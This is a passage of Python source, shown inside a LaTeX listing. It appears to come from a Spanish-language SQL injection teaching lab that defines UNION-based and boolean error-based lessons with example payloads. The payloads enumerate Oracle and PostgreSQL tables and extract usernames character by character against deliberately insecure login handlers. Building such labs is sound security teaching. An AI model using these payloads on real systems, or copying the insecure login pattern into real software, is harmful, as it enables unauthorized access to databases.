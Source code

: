 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python]
                "password":"cualquier_input' UNION SELECT 1, NULL, OWNER, TABLE_NAME FROM all_tables WHERE OWNER='SYSTEM' -- AND password = 'cualquier_input'"
            },
            {
                "nombre":"Todas las tablas en la BD (PostgreSQL)",
                "usuario":"cualquier_input",
                "password":"cualquier_input' UNION SELECT NULL, table_name, NULL, NULL FROM information_schema.tables WHERE table_schema = 'public'; --"
            },
            {
                "nombre":"Todas las tablas en la BD (Oracle Filtrado)",
                "usuario":"cualquier_input",
                "password":"cualquier_input' UNION SELECT 1, NULL, OWNER, TABLE_NAME FROM all_tables WHERE owner = 'SYSTEM' AND TABLE_NAME NOT LIKE '%$%' AND TABLE_NAME NOT LIKE 'SYS%' AND TABLE_NAME NOT LIKE 'LOGMNR%' --"
            }
        ],
        "route_oracle": "login_oracle_union",
        "route_postgres": "login_postgres_union",
        "function_oracle": login_inseguro_base_oracle,
        "function_postgres": login_inseguro_base_postgresql
    },
    "boolean": {
        "title": "Boolean-Based SQL Injection",
        "description": """
            <p>La inyección SQL basada en booleanos es una técnica utilizada por atacantes para manipular consultas SQL mediante la inserción de condiciones booleanas en las entradas de una aplicación web. La aplicación proporciona mensajes de error. El atacante aprovecha esta retroalimentación para extraer información de la base de datos, observando cómo las respuestas de la aplicación varían al introducir diferentes condiciones booleanas en las consultas.</p>
        """,
        "dificultad": 2,
        "impacto": 3,
        "credenciales":[
            {
                "nombre":"Provocando un error 'división por cero' para sacar la longitud de un campo (Oracle)",
                "usuario":"' OR (SELECT CASE WHEN (LENGTH(username) = 5) THEN 1/0 ELSE 1 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --",
                "password":"cualquier_input"
            },
            {
                "nombre":"Provocando un error 'división por cero' para sacar un carácter de un campo (Oracle)",
                "usuario":"' OR (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'a') THEN 1/0 ELSE 1 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --",
                "password":"cualquier_input"
            },
            {
                "nombre":"PostgreSQL no permite esto", #PostgreSQL no permite aplicar la técnica para forzar un error 'división por cero' ya que toda la consulta es analizada y evaluada en su totalidad antes de devolver un resultado, lo que provoca el error aun sin cumplir la condición

\end{lstlisting}
\end{document}
